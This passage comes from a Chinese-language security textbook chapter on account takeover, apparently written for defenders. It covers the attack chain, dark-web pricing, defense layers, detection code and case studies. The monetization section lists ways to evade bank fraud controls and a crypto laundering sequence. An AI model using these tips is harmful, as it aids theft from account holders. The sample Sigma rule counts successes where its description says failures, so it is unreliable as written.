2. 将该 Session ID 通过 URL 参数传递给受害者（如伪装的链接）
3. 受害者使用该链接登录，服务器将该 Session ID 与用户账户关联
4. 攻击者使用相同的 Session ID 访问网站，获得已认证状态

**防御措施：**
- 登录成功后必须重新生成 Session ID
- 使用 `HttpOnly` 和 `Secure` 标记保护 Cookie
- 实施 Session 绑定到 IP/设备指纹

#### 5.4.7 密码重置流程漏洞

密码重置流程是 ATO 的另一个重要入口。根据 OWASP 的统计，密码重置功能是 Web 应用中被利用最多的认证绕过入口之一：

- **重置 Token 可预测**：如果重置链接中的 Token 使用弱随机数生成（如时间戳、递增 ID），攻击者可以猜测或暴力破解 Token
- **重置链接通过 HTTP 传输**：在不安全的网络中被截获
- **重置链接不过期**：早期生成的链接在用户已重置密码后仍然有效
- **安全问题可猜测**：使用"你母亲的名字"、"你第一只宠物的名字"等容易通过社交工程获取的信息
- **邮箱/短信劫持**：攻击者控制了用户的邮箱或手机号，直接获取重置链接/验证码
- **重置接口枚举**：密码重置接口泄露账户是否存在（通过不同的错误信息或响应时间差异）

**安全的密码重置设计：**
- 使用密码学安全的随机 Token（至少 128 位熵）
- Token 有效期不超过 24 小时，使用后立即失效
- 重置完成后通知用户（邮箱/短信/App 推送）
- 避免在 URL 中直接暴露用户标识符
- 实施速率限制防止 Token 暴力枚举

#### 5.4.8 云身份与 SSO 攻击

随着企业大量使用云服务和 SSO（单点登录），云身份提供商（如 Azure AD、Okta、AWS IAM）成为高价值 ATO 目标：

**SSO 接管的连锁效应：**
```text
攻击者接管企业 SSO 账户
    ├── Office 365（邮件、OneDrive、Teams）
    ├── Salesforce（CRM 客户数据）
    ├── AWS Console（云基础设施）
    ├── GitHub（源代码、CI/CD 密钥）
    ├── Slack（内部通信）
    └── 所有其他已集成 SSO 的应用
```

**云身份 ATO 的特殊挑战：**
- 一个账户的接管可能导致数十个关联服务同时沦陷
- 云权限配置复杂，容易存在过度授权
- API Key 和 Service Account 的凭据可能硬编码在配置文件中
- 多租户环境下，一个租户的泄露可能波及其他租户

---

### 5.5 账户接管后的持久化与控制

攻击者成功登录后，不会立即行动——他们通常会先建立持久化访问、收集情报，然后才开始变现。

#### 5.5.1 持久化技术

| 技术 | 操作 | 目的 |
|------|------|------|
| 添加备用邮箱/手机号 | 设置攻击者控制的恢复邮箱或手机号 | 即使原用户改密码也能重新接管 |
| 创建应用密码 | 生成不触发 MFA 的应用专用密码 | 绕过 MFA 保护 |
| 设置邮件转发规则 | 将所有邮件自动转发到攻击者邮箱 | 持续监控通信内容 |
| 授权恶意 OAuth 应用 | 授予攻击者控制的应用访问权限 | 获得 API 级别的持续访问 |
| 创建后门账号 | 添加新的管理员账户 | 建立备用入口 |
| 绑定新设备 | 标记攻击者设备为"受信任设备" | 降低后续登录的验证要求 |

#### 5.5.2 潜伏与情报收集

在金融账户 ATO 中，攻击者通常会**潜伏 2-4 周**后才开始行动：

1. **监控通信**：阅读邮件、聊天记录，了解资金流转模式和审批流程
2. **识别交易模式**：了解受害者的日常消费习惯、大额交易特征
3. **评估账户价值**：确认余额、信用额度、可用资产
4. **寻找变现路径**：确定最不容易被发现的变现方式
5. **准备退出策略**：规划资金转移路径，准备洗钱渠道

---

### 5.6 账户接管后的变现路径

ATO 的最终目的是获利。不同类型的账户有不同的变现方式，以下是主要的变现路径：

#### 5.6.1 金融账户

金融账户是 ATO 最高价值的目标：

| 变现方式 | 操作流程 | 风险等级 | 典型收益 | 检测难度 |
|----------|---------|---------|---------|---------|
| 直接转账 | 转入攻击者控制的账户 | 高（有追踪链） | 账户全部余额 | 中 |
| 购物退货套现 | 用被盗信用卡购物后要求退款到其他账户 | 中 | 单次数百至数千元 | 低 |
| 虚假贷款申请 | 利用账户信用记录申请贷款 | 中高 | 数万至数十万元 | 高 |
| 信用卡额度变现 | 购买可转售商品（电子产品、礼品卡） | 中 | 信用卡额度上限 | 中 |
| 投资账户操纵 | 买卖特定股票配合其他攻击者的反向操作 | 高 | 不定 | 高 |

**规避风控的常见技巧：**
- 不会一次性转走全部资金，而是分多笔小额转出（低于自动告警阈值）
- 先进行几笔正常的小额交易建立"正常"行为模式
- 利用账户的历史交易数据模仿正常操作习惯
- 使用与受害者地理位置相近的代理 IP
- 避开工作日白天（风控系统运行最严格的时段），选择周末或节假日执行
- 优先使用受害者常用的转账渠道和收款方

#### 5.6.2 电商账户

电商账户的变现方式多样：

- **滥用存储的支付方式**：直接使用账户中保存的信用卡或支付账户下单，购买电子产品、礼品卡等易于转售的商品
- **优惠券和积分变现**：兑换账户中的优惠券、积分、返现，购买商品后转售
- **虚假退货**：使用账户下单后申请退款到攻击者控制的账户
- **卖家账户接管**：如果接管的是卖家账户，可以直接提取店铺余额或操纵商品信息（如将商品价格修改为 $0.01，然后批量下单）
- **虚假评价服务**：利用被盗买家账户发布虚假好评或差评，向商家勒索

#### 5.6.3 加密货币账户

加密货币账户是近年来 ATO 的高价值目标：

**原因：**
- 交易不可逆，一旦转出无法追回
- 匿名性高，追踪困难
- 交易所之间的转账速度快（分钟级）

**攻击后的典型操作：**
1. 快速将加密货币转移到攻击者控制的钱包
2. 通过跨链桥（跨链桥经常被用于洗白）转移到隐私链
3. 使用混币器（如 Tornado Cash 合规版或其他混币服务）增加追踪难度
4. 在去中心化交易所（DEX）兑换为其他币种
5. 最终通过 P2P 交易平台套现为法币

#### 5.6.4 社交媒体与通讯账户

社交媒体账户的价值往往被低估，但其变现能力很强：

- **传播诈骗信息**：利用被盗账户的社交关系链发送诈骗链接，因为来自"朋友"的信息信任度极高
- **虚假广告**：使用高粉丝量账户发布付费推广内容
- **勒索**：威胁公开私密聊天记录或照片
- **水军服务**：利用大量被盗账户进行刷量、控评、制造舆论
- **账号交易**：高粉丝量的账号在黑市上价格可达数千至数万元
- **社交工程跳板**：以被盗账户身份向其他联系人发送钓鱼链接，形成链式传播

#### 5.6.5 游戏账户

游戏行业每年因 ATO 损失数十亿美元：

- **虚拟物品出售**：将被盗账户中的稀有皮肤、装备、货币在第三方平台出售
- **游戏货币套现**：将游戏内货币通过 RMT（Real Money Trading）渠道转换为真实货币
- **账户转售**：高等级、稀有物品丰富的完整账户在黑市出售
- **代练/陪玩**：利用被盗的高段位账户提供付费代练服务

#### 5.6.6 企业账户（BEC 攻击）

企业邮箱账户的 ATO 是商业邮件欺诈（Business Email Compromise，BEC）的核心环节。BEC 攻击的具体技术细节已在本章第 4 节详细阐述，此处仅概述 ATO 在 BEC 中的角色：

1. 接管企业高管或财务人员的邮箱
2. 监控邮件往来，了解公司的付款流程和供应商关系
3. 冒充高管向财务人员发出紧急付款指令
4. 或冒充供应商修改付款账户信息
5. 资金转入攻击者控制的账户

**BEC 的危害程度：** FBI 数据显示，BEC 攻击在 2013-2023 年间造成的全球损失超过 **550 亿美元**，是所有网络犯罪类型中损失金额最高的。ATO-BEC 复合攻击（先接管邮箱，再执行 BEC）的成功率比纯社会工程 BEC 高 5-10 倍。

---

### 5.7 ATO 基础设施与产业链

#### 5.7.1 ATO 犯罪产业链分工

现代 ATO 攻击已经高度产业化，形成了明确的分工体系：



| 角色 | 职责 | 收入模式 | 技术门槛 |
|------|------|---------|---------|
| 数据泄露者 | 入侵网站或运营钓鱼获取凭据 | 出售数据库，按条或按库计价 | 中-高 |
| Config 开发者 | 为撞库工具编写特定网站的登录流程 | 按 Config 售价收费（$5-$50/个） | 中 |
| 撞库操作者 | 使用工具大规模测试凭据 | 出售有效账户列表 | 低-中 |
| 代理供应商 | 提供 IP 代理池 | 按流量或按 IP 数量计费 | 中 |
| 验证码服务商 | 提供 CAPTCHA 识别服务 | 按次计费 | 中 |
| 变现操作者 | 将有效账户转化为现金 | 按利润分成或直接购买账户 | 低-中 |
| 洗钱网络 | 将非法资金转换为合法收入 | 抽取 20%-50% 手续费 | 高 |

#### 5.7.2 暗网定价参考

| 商品类型 | 价格范围 | 说明 |
|----------|---------|------|
| 普通网站账户 | $0.50-$5/个 | 视网站价值和账户余额而定 |
| 银行账户（含余额） | 余额的 5%-10% | 即"面值"折扣 |
| 加密货币交易所账户 | $50-$500/个 | 取决于账户余额和验证级别 |
| 企业邮箱账户 | $100-$1000/个 | 用于 BEC 攻击 |
| 带 Cookie 的账户 | 价格翻 2-5 倍 | 绕过 2FA 的"高级"账户 |
| 流媒体账户 | $1-$5/个 | Netflix、Spotify 等 |
| 游戏账户（高价值） | $10-$500/个 | 取决于等级和虚拟物品 |
| SSO 企业账户 | $200-$2000/个 | 可能解锁数十个关联服务 |
| 完整的浏览器配置文件 | $20-$200/个 | 包含 Cookie + 指纹 + 凭据 |

---

### 5.8 防御体系构建

#### 5.8.1 个人用户防御清单

**1. 密码管理**

- 使用密码管理器（1Password、Bitwarden、KeePass）为每个网站生成唯一的强密码
- 主密码至少 16 位，包含大小写字母、数字和特殊字符
- 定期检查账户是否出现在泄露数据库中（Have I Been Pwned：haveibeenpwned.com）
- 禁止在任何两个网站使用相同密码
- 避免使用个人信息（生日、姓名、电话）作为密码的一部分

**2. 多因素认证（MFA）——按安全性排序**

| MFA 类型 | 安全性 | 易用性 | 抗 ATO 能力 | 推荐指数 |
|----------|--------|--------|-------------|---------|
| FIDO2/Passkey（硬件密钥） | 最高 | 中 | 完全抗 AitM 和钓鱼 | ★★★★★ |
| FIDO2（YubiKey 等） | 最高 | 中 | 完全抗 AitM 和钓鱼 | ★★★★★ |
| TOTP 认证器（6位动态码） | 高 | 高 | 抗 SIM Swapping，但不抗 AitM | ★★★★ |
| 推送通知 MFA | 中-高 | 最高 | 不抗 MFA 疲劳攻击 | ★★★ |
| 短信验证码 | 低 | 高 | 不抗 SIM Swapping 和 AitM | ★★ |

**关键建议：**
- 优先使用 Passkey 或硬件安全密钥（YubiKey）
- 其次使用 TOTP 认证器（Google Authenticator、Aegis、Raivo）
- 短信验证码仅作为最低保障，绝不应作为唯一 2FA 手段
- 保存 MFA 恢复码在安全的离线位置（加密 U 盘或纸质记录）

**3. 安全意识**

- 不在公共 Wi-Fi 上登录敏感账户
- 警惕任何要求输入密码的邮件/短信链接
- 检查登录页面的 URL 是否正确（尤其注意子域名和相似域名）
- 定期检查账户的登录历史和已授权设备
- 不安装来源不明的浏览器扩展
- 不使用破解软件（Infostealer 的主要传播途径之一）

**4. SIM 卡保护**

- 向运营商设置 SIM 卡锁定 PIN
- 要求运营商在号码转移时需要到店+证件验证
- 将关键账户的 2FA 从 SMS 切换到 App 或硬件密钥
- 考虑使用不公开的"影子号码"接收重要验证码

#### 5.8.2 企业防御架构

企业应构建**预防-检测-响应**三层纵深防御体系：

**第一层：预防**

- 强制 MFA（条件允许时使用 FIDO2/WebAuthn）
- 密码策略：最少 12 位，禁止使用已泄露的密码（集成 HIBP Passwords API）
- Web 应用防火墙（WAF）拦截自动化登录请求
- 实施 CAPTCHA 但要平衡用户体验
- 禁用不安全的密码恢复方式（安全问题）
- 实施设备信任策略：新设备登录需要额外验证
- 定期轮换 API Key 和 Service Account 凭据

**第二层：检测**

- 用户和实体行为分析（UEBA）：建立用户行为基线，检测偏离
- 异常登录检测（新设备、新地理位置、非常规时间）
- 凭据泄露监控（订阅暗网泄露数据监控服务，如 SpyCloud、Constella Intelligence）
- 登录速率异常检测
- 邮件转发规则变更监控
- OAuth 应用授权监控

**第三层：响应**

- 自动化账户锁定和通知（检测到异常后立即触发）
- 强制密码重置流程（全组织范围或针对高风险账户）
- 安全事件响应团队（CSIRT）介入
- 取证分析和攻击溯源
- 通知受影响用户并提供恢复指导



#### 5.8.3 技术检测指标与规则

以下指标可以作为 ATO 检测的信号：

| 检测指标 | 说明 | 权重 | MITRE ATT&CK 映射 |
|----------|------|------|-------------------|
| 异地登录 | 与上次登录地理位置距离超过阈值 | 高 | T1078 - Valid Accounts |
| 新设备登录 | 未见过的设备指纹 | 中 | T1078.004 - Cloud Accounts |
| 非常规时间登录 | 凌晨 2-5 点登录（基于用户时区） | 低 | T1078 - Valid Accounts |
| 登录后立即修改信息 | 成功登录后马上改密码/邮箱/手机 | 高 | T1098 - Account Manipulation |
| 批量登录失败后成功 | 多次失败后突然成功（可能找到有效凭据） | 高 | T1110 - Brute Force |
| 浏览器特征异常 | TLS 指纹、Canvas 指纹异常 | 中 | T1557 - Adversary-in-the-Middle |
| 请求频率异常 | 单位时间内请求数量远超正常用户 | 中 | T1071 - Application Layer Protocol |
| Session 异常 | 同一账户短时间内从不同地理位置建立会话 | 高 | T1539 - Steal Web Session Cookie |
| 邮件转发规则新增 | 新增自动转发到外部邮箱的规则 | 高 | T1114 - Email Collection |
| OAuth 应用异常授权 | 新授权的第三方应用 | 中 | T1550 - Use Alternate Authentication |

**Sigma 检测规则示例：**

```yaml
# 检测短时间内同一账户多次失败登录后成功
title: Suspicious Login Pattern - Multiple Failures Then Success
id: 7a8b9c0d-1234-5678-9abc-def012345678
status: experimental
description: Detects when a user account experiences multiple failed login attempts followed by a successful login, which may indicate credential stuffing or brute force attack
references:
  - https://attack.mitre.org/techniques/T1110/
logsource:
  category: authentication
detection:
  selection:
    event_type: 'login'
    result: 'success'
  filter_legitimate:
    # 正常的密码重置后首次登录
    preceding_action: 'password_reset'
  timeframe: 5m
  condition: selection and not filter_legitimate and count(result) by target_user > 3
  # 5分钟内同一用户有超过3次成功登录（结合之前的失败记录）
level: high
tags:
  - attack.credential_access
  - attack.t1110
```

```python
# Python 检测脚本示例：异常登录地理距离检测
from geopy.distance import geodesic
from datetime import datetime, timedelta

def detect_impossible_travel(login_events, threshold_km=500, threshold_hours=2):
    """检测不可能旅行——同一账户在短时间内出现在相距甚远的两个位置"""
    alerts = []
    user_sessions = {}
    
    for event in login_events:
        user = event['user_id']
        login_time = event['timestamp']
        geo = (event['latitude'], event['longitude'])
        
        if user in user_sessions:
            last = user_sessions[user]
            distance = geodesic(last['geo'], geo).kilometers
            time_diff = (login_time - last['time']).total_seconds() / 3600
            
            if distance > threshold_km and time_diff < threshold_hours:
                speed = distance / time_diff if time_diff > 0 else float('inf')
                alerts.append({
                    'user': user,
                    'distance_km': round(distance, 1),
                    'time_hours': round(time_diff, 2),
                    'speed_kmh': round(speed, 1),
                    'last_location': last['location_name'],
                    'current_location': event['location_name'],
                    'severity': 'critical' if speed > 900 else 'high'  # 900km/h ≈ 飞机速度
                })
        
        user_sessions[user] = {
            'geo': geo,
            'time': login_time,
            'location_name': event.get('location_name', 'Unknown')
        }
    
    return alerts
```

#### 5.8.4 推荐防御工具

| 工具类别 | 推荐工具 | 适用场景 |
|----------|---------|---------|
| 密码管理器 | 1Password、Bitwarden、KeePassXC | 个人/企业密码管理 |
| MFA 硬件密钥 | YubiKey 5 系列、Feitian | FIDO2/WebAuthn |
| TOTP 应用 | Aegis（Android）、Raivo（iOS） | 一次性密码 |
| 泄露监控 | Have I Been Pwned、SpyCloud | 个人/企业凭据泄露监控 |
| UEBA 平台 | Exabeam、Securonix、Microsoft Sentinel | 企业异常行为检测 |
| 反钓鱼平台 | Cofense、KnowBe4 | 钓鱼邮件过滤与安全意识培训 |
| 云身份安全 | Okta、Azure AD Conditional Access | 企业 SSO 与条件访问控制 |

---

### 5.9 常见误区

在理解和防御 ATO 的过程中，以下误区非常常见：

**误区一："我已经启用了 MFA，所以账户是安全的"**

> **事实**：并非所有 MFA 方案都同样安全。短信验证码不抗 SIM Swapping，推送通知不抗 MFA 疲劳攻击，基于时间的 TOTP 不抗 AitM 钓鱼。只有 FIDO2/Passkey 才能完全抵御已知的 MFA 绕过技术。

**误区二："只要密码足够复杂就不会被撞库"**

> **事实**：复杂密码能防暴力破解，但不能防止 Cookie 注入和 Session 劫持。Infostealer 不需要你的密码——它直接窃取你的浏览器会话。此外，如果你在多个网站使用相同密码，即使密码复杂，一旦其中一个网站泄露，其他网站同样面临风险。

**误区三："小网站不值得攻击"**

> **事实**：攻击者不只看单个网站的价值，更看重凭据的复用价值。你在小论坛使用的密码，可能恰好也是你银行账户的密码。据统计，约 65% 的用户在多个服务中使用相同密码。

**误区四："密码过期策略能提高安全性"**

> **事实**：NIST SP 800-63B（美国国家标准）已明确建议**取消强制密码过期**。研究表明，强制频繁更换密码反而导致用户选择更弱的密码（如 `Password1` → `Password2`），并且增加了密码泄露到便利贴或其他不安全位置的风险。正确做法是使用泄露数据库检查替代密码过期。

**误区五："企业内部网络是安全的，不需要防御 ATO"**

> **事实**：内部网络中的 ATO 更难检测。攻击者一旦获得合法凭据，其行为看起来完全正常——所有请求都来自合法用户、使用合法凭据、通过合法入口。这正是"零信任"（Zero Trust）架构存在的原因：永远不要默认信任，始终验证。

**误区六："使用 VPN 就能防止账户被接管"**

> **事实**：VPN 保护的是网络传输层的安全，无法防御凭据泄露、钓鱼攻击或恶意软件窃取。VPN 不能替代密码管理器、MFA 和安全意识。

---

### 5.10 典型案例分析

#### 案例一：Credential Stuffing 攻击某电商平台（2023）

**背景：** 某大型电商平台在促销期间检测到异常登录流量。

**攻击过程：**
1. 攻击者获取了另一家论坛网站的泄露数据库（约 800 万条记录）
2. 使用 SilverBullet + 10 万住宅代理 IP 对电商平台发起撞库
3. 成功率约 1.2%，获得约 9.6 万个有效账户
4. 使用有效账户中的存储支付方式大量下单购买高价值商品（电子产品、礼品卡）
5. 将商品发货到虚假地址，使用中间人接收并转售

**损失：** 直接经济损失约 200 万元人民币，加上后续的退款处理、客服成本和品牌声誉损失。

**教训与防御建议：**
- 平台未对异常登录行为做实时检测——应在检测到短时间内大量失败登录时自动触发保护
- 未集成泄露密码检测机制——应在用户登录时检查凭据是否已知泄露
- 允许新设备登录后立即进行大额支付，缺乏"冷却期"机制——新设备首次支付应强制二次验证
- 未实施基于设备指纹的异常检测——同一设备指纹大量尝试不同账户是明显的撞库信号

#### 案例二：SIM Swapping 导致加密货币被盗（2022）

**背景：** 一名加密货币投资者持有约 300 万美元的比特币和以太坊，账户使用短信验证码作为唯一的 2FA 手段。

**攻击过程：**
1. 攻击者通过社交媒体（Instagram、Twitter）收集受害者的基本信息（全名、生日、地址、手机号）
2. 从暗网购买了受害者的更详细个人信息（身份证号、社保号后四位）
3. 联系运营商客服，冒充受害者声称手机丢失，提供了所有收集到的个人信息
4. 运营商验证通过，将号码转移到攻击者的新 SIM 卡
5. 使用"忘记密码"功能重置 Coinbase 账户密码
6. 通过短信验证码完成 MFA 验证
7. 在 30 分钟内将所有加密货币转移到攻击者控制的钱包
8. 通过多个中间钱包和去中心化交易所转移资金

**损失：** 约 300 万美元的加密货币全部被盗，资金无法追回。

**教训与防御建议：**
- 不应仅依赖短信验证码作为 2FA——SMS 2FA 是最薄弱的 MFA 方案
- 加密货币交易所应支持并推荐使用硬件安全密钥（FIDO2）
- 运营商应加强 SIM 转移的身份验证流程（到店验证 + 证件原件）
- 投资者应将大部分加密货币存储在冷钱包（硬件钱包）中，仅在交易所保留少量交易资金
- 使用不公开的"影子号码"注册高价值账户，避免公开手机号被针对性攻击

#### 案例三：Uber ATO 事件（2022）——MFA 疲劳攻击的经典案例

**背景：** 2022 年 9 月，一名 18 岁的黑客通过社交工程和 MFA 疲劳攻击成功接管了 Uber 的企业网络。

**攻击过程：**
1. 攻击者通过暗网购买了 Uber 员工的凭据（可能来自早期数据泄露）
2. 尝试使用凭据登录 Uber 的 VPN，触发 MFA 推送通知
3. 向该员工反复发送 MFA 推送请求（MFA 疲劳攻击）
4. 员工最终点击了"批准"
5. 攻击者进入 Uber 内部网络，发现 PowerShell 脚本中硬编码了 PAM（特权访问管理）工具的管理员凭据
6. 使用 PAM 凭据获得对 Uber 全球基础设施的管理员访问权限
7. 勒索要求——但最终因暴露而被执法机构追踪

**损失：** Uber 全球基础设施被攻破，内部系统被访问，多份敏感文档被下载。Uber 股价在事件后短暂下跌约 5%。

**教训与防御建议：**
- MFA 推送通知必须有频率限制和上下文信息（显示登录 IP 和位置）
- 检测到异常频率的 MFA 请求时，应自动锁定账户并通知用户
- 硬编码凭据是严重的安全漏洞——应使用密钥管理服务（如 HashiCorp Vault、AWS Secrets Manager）
- PAM 工具的管理员凭据应实施即时轮换（Just-In-Time Access），而非静态存储
- 即使使用 MFA，也应将 MFA 类型升级到 TOTP 或 FIDO2

---

### 5.11 法律后果

ATO 相关行为在大多数司法管辖区都是严重犯罪：

**中国相关法律：**

| 罪名 | 适用法条 | 刑罚 |
|------|---------|------|
| 盗窃罪 | 刑法第 264 条 | 3 年以下至无期徒刑 |
| 诈骗罪 | 刑法第 266 条 | 3 年以下至无期徒刑 |
| 侵犯公民个人信息罪 | 刑法第 253 条之一 | 3-7 年有期徒刑 |
| 非法获取计算机信息系统数据罪 | 刑法第 285 条第 2 款 | 3-7 年有期徒刑 |
| 提供侵入/非法控制计算机信息系统程序工具罪 | 刑法第 285 条第 3 款 | 3-7 年有期徒刑 |

**美国相关法律：**

| 法律 | 适用场景 | 刑罚 |
|------|---------|------|
| Computer Fraud and Abuse Act (CFAA) | 未授权访问计算机系统 | 最高 20 年监禁 |
| Wire Fraud | 通过电子通信实施欺诈 | 最高 20 年监禁 |
| Identity Theft | 盗用他人身份 | CFAA 基础上额外 2-5 年 |
| Bank Fraud | 针对金融机构的欺诈 | 最高 30 年监禁 |

**重要提示**：即使只是开发或分发 ATO 相关工具（如撞库框架、Infostealer），在许多司法管辖区也可能构成犯罪。中国刑法第 285 条第 3 款明确规定，提供专门用于侵入或非法控制计算机信息系统的程序、工具的行为本身即构成犯罪。

---

### 5.12 本节小结

ATO 是一个涉及多个技术环节的完整攻击链，从凭据获取到最终变现，每个环节都有成熟的工具和产业链支撑。理解这条攻击链的每个环节，才能构建真正有效的防御。

**防御 ATO 的四道防线：**

1. **凭据层面**：唯一强密码 + 密码管理器，从源头降低凭据复用风险
2. **认证层面**：MFA（优先 FIDO2/Passkey > TOTP > SMS），即使凭据泄露也能阻止登录
3. **检测层面**：行为分析 + 异常检测，在攻击者突破前两层后及时发现
4. **响应层面**：自动化响应 + 人工介入，快速控制损失范围

**关键认知升级：**
- ATO 不是单一技术，而是产业链——每个环节都有专业供应商
- MFA 不是万能药——不同 MFA 方案的安全性差异巨大
- Cookie/Session 才是现代 ATO 的核心战场——Infostealer 窃取的不是密码，而是"已登录状态"
- 云身份是新的高价值目标——一个 SSO 账户可能解锁数十个关联服务
- 防御的关键在于**减少攻击面**和**缩短检测时间**——从"永远不被攻破"转向"被攻破后快速发现和响应"

对于安全从业者而言，理解 ATO 的攻击链和变现逻辑，既能帮助构建更有效的防御体系，也能在安全评估中识别潜在的账户接管风险点。对于红队人员，ATO 的每个环节都是可以测试的攻击面，但必须在授权范围内进行，严格遵守法律和职业道德底线。
